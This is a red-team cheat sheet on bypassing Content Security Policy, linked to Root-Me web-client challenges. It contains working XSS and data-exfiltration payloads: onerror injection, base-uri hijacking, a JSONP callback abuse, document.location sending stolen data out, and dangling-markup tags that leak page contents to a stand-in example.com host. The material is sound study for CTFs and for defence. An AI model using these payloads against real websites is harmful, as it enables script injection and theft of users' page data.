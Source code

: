 # Content Security Policy (CSP)

[![csp_bypass_nonce](../../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)

<div class="row row-cols-lg-2"><div>

The Content Security Policy (CSP) is a security mechanism designed to make XSS and other web client attacks harder.

* 🐛 We can block inline code execution <small>(no onload/...)</small>
* 🖼️ We can configure the image policy <small>(no external? whitelist? local?)</small>
* 💥 We can configure the script policy <small>(no external? whitelist? local?)</small>
* 🐍 We can configure URLs that we can connect to <small>(ex: fetch(URL))</small>
* ...

We can either use `curl -i URL` and manually inspect the CSP header and meta-tag or use Google [CSP Evaluator](https://csp-evaluator.withgoogle.com/).
</div><div>

Developers can allow some elements to bypass the CSP, such as one specific element allowed to load an external script using a `nonce`.

```html!
<script nonce="some_nonce_here">/*inline code allowed*/</script>
```

☠️ Nonce must be unique and not predictable for them to be useful.

📚 A great reference: [Beyond XSS, CSP bypass](https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/) <small>(0.1k ⭐)</small>.
</div></div>

<hr class="sep-both">

## CSP Bypass

*CSP policies may not be correctly configured and bypassed. Refer to [XSS Malicious Code](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md#xss-malicious-code) and [XSS Filter Bypass](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md#xss-filter-bypass) for more details.*

<div class="row row-cols-lg-2"><div>

#### CSP Bypass — unsafe-inline

[![csp_bypass_inline_code](../../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)

If `unsafe-inline` is enabled, you can execute code using:

```html!
<img src=1 onerror="your_code_here" />
```

<br>

#### CSP Bypass — base-uri

[![csp_bypass_nonce_2](../../../../../_badges/rootme/web_client/csp_bypass_nonce_2.svg)]()

If the CSP is lax enough, we may be able to inject a base-uri to an external website we control, allowing us to load files from our server.

```html!
<base href="https://example.com" target="_blank">
<img src="img/dummy.jpg"/>
<!-- https://example.com/img/dummy.jpg -->
```
</div><div>

#### CSP Bypass — connect-src 'none'

[![csp_bypass_inline_code](../../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
[![csp_bypass_jsonp](../../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)
[![csp_bypass_nonce](../../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)

If `connect-src` is `none`, any external request will fail. Try:

* `document.location = 'URL/?param=' + <stolen_data>` <small>(CTF-only)</small>
* Automatically submit a hidden form after injecting data inside. Refer to [CSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/csrf.md).

<br>

#### CSP Bypass — JSONP — script-src

[![csp_bypass_jsonp](../../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)

JSONP was designed to ease the process of connecting an API with the website code: the developer can write code automatically executed after the API has been called within the URL ☠️.

Well-known list of public JSONP APIs: [JSONBee](https://github.com/zigoo0/JSONBee) <small>(0.7k ⭐)</small>. Look if your CSP policy is lax enough to allow any of them to be loaded.

```html!
<!-- don't forget "defer" or "async" -->
<script defer src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);alert(2)"></script>
```
</div></div>

<hr class="sep-both">

## Dangling markup

[![csp_bypass_dangling_markup](../../../../../_badges/rootme/web_client/csp_bypass_dangling_markup.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Dangling-markup)
[![csp_bypass_dangling_markup2](../../../../../_badges/rootme/web_client/csp_bypass_dangling_markup2.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Dangling-markup-2)

<div class="row row-cols-lg-2"><div>

When the CSP is too restrictive and the goal is only to extract some data from the page, we can use dangling markup.

In a nutshell, we insert a tag that will mess with the browser renderer and export the rest of the page to a endpoint we defined.

All of these in Firefox will result in a request to `https://example.com/?<the rest of the HTML page here until the next quote>`.

```html!
<link rel="prefetch" href='https://example.com/?
```
```html!
<img src='https://example.com/?
```
```html!
<meta http-equiv="refresh" content="4; URL='https://example.com/?
```
```html!
<style>@import//example.com?
```

📚 Use either `'` or `"` according to the one that gives the largest range.
</div><div>

Chrome prevents HTTP URLs from containing HTML tags which reduce the number of payloads we can use. FTP didn't work.
</div></div>